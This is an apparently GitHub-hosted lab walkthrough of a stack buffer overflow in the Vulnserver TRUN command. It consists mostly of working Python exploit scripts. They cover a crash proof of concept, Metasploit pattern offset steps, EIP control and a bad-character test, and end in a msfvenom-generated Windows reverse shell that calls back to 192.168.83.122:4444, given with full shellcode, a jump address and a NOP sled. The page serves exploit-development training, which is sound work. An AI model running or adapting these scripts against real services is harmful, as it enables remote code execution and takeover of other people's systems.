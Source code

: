 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: POC
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```
Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Pattern
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

<!--- <p align="center">
  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
  </p>
--->

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337
```

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Control
import socket
import os
import sys

crash="A"*2003 + "B"*4 + "C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
Running the updated script against the Vulnserver crashes the server and produces the following EIP output in OllyDbg.

![trun-eip-overwrite-media-04](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-04.png)

![trun-eip-overwrite-media-05](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-05.png)

The crash buffer has successfully overwritten EIP with four (4) "B" "\x42" characters; we now have control over EIP. The next step is to identify any bad characters the might not work for our shellcode.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Bad Characters
import socket
import os
import sys

badchar=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash="A"*2003 + "B"*4 + badchar  #"C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-06.png)

From looking at the output, we can tell that there are no bad characters other than \x00. Generate a reverse shell using msfvenom and insert it into the Vulnserver TRUN Python Script and proceed it with a 15 character NOP sled.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.83.122 LPORT=4444 -b "\x00" -f c
```

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Shell
import socket
import os
import sys

shellcode=("\xda\xc5\xd9\x74\x24\xf4\x5d\xbb\xcc\xa2\xea\x74\x33\xc9\xb1"
"\x52\x83\xed\xfc\x31\x5d\x13\x03\x91\xb1\x08\x81\xd5\x5e\x4e"
"\x6a\x25\x9f\x2f\xe2\xc0\xae\x6f\x90\x81\x81\x5f\xd2\xc7\x2d"
"\x2b\xb6\xf3\xa6\x59\x1f\xf4\x0f\xd7\x79\x3b\x8f\x44\xb9\x5a"
"\x13\x97\xee\xbc\x2a\x58\xe3\xbd\x6b\x85\x0e\xef\x24\xc1\xbd"
"\x1f\x40\x9f\x7d\x94\x1a\x31\x06\x49\xea\x30\x27\xdc\x60\x6b"
"\xe7\xdf\xa5\x07\xae\xc7\xaa\x22\x78\x7c\x18\xd8\x7b\x54\x50"
"\x21\xd7\x99\x5c\xd0\x29\xde\x5b\x0b\x5c\x16\x98\xb6\x67\xed"
"\xe2\x6c\xed\xf5\x45\xe6\x55\xd1\x74\x2b\x03\x92\x7b\x80\x47"
"\xfc\x9f\x17\x8b\x77\x9b\x9c\x2a\x57\x2d\xe6\x08\x73\x75\xbc"
"\x31\x22\xd3\x13\x4d\x34\xbc\xcc\xeb\x3f\x51\x18\x86\x62\x3e"
"\xed\xab\x9c\xbe\x79\xbb\xef\x8c\x26\x17\x67\xbd\xaf\xb1\x70"
"\xc2\x85\x06\xee\x3d\x26\x77\x27\xfa\x72\x27\x5f\x2b\xfb\xac"
"\x9f\xd4\x2e\x62\xcf\x7a\x81\xc3\xbf\x3a\x71\xac\xd5\xb4\xae"
"\xcc\xd6\x1e\xc7\x67\x2d\xc9\x28\xdf\x7e\x73\xc1\x22\x80\x92"
"\x4d\xaa\x66\xfe\x7d\xfa\x31\x97\xe4\xa7\xc9\x06\xe8\x7d\xb4"
"\x09\x62\x72\x49\xc7\x83\xff\x59\xb0\x63\x4a\x03\x17\x7b\x60"
"\x2b\xfb\xee\xef\xab\x72\x13\xb8\xfc\xd3\xe5\xb1\x68\xce\x5c"
"\x68\x8e\x13\x38\x53\x0a\xc8\xf9\x5a\x93\x9d\x46\x79\x83\x5b"
"\x46\xc5\xf7\x33\x11\x93\xa1\xf5\xcb\x55\x1b\xac\xa0\x3f\xcb"
"\x29\x8b\xff\x8d\x35\xc6\x89\x71\x87\xbf\xcf\x8e\x28\x28\xd8"
"\xf7\x54\xc8\x27\x22\xdd\xf8\x6d\x6e\x74\x91\x2b\xfb\xc4\xfc"
"\xcb\xd6\x0b\xf9\x4f\xd2\xf3\xfe\x50\x97\xf6\xbb\xd6\x44\x8b"
"\xd4\xb2\x6a\x38\xd4\x96")

crash="A"*2003 + "\xAF\x11\x50\x62" + "\x90"*15 + shellcode

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Launch Vulnserver.exe without attaching it to OllyDbg and launch the Vulnserver TRUN Python Script.

![trun-eip-overwrite-media-07](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-07.png)
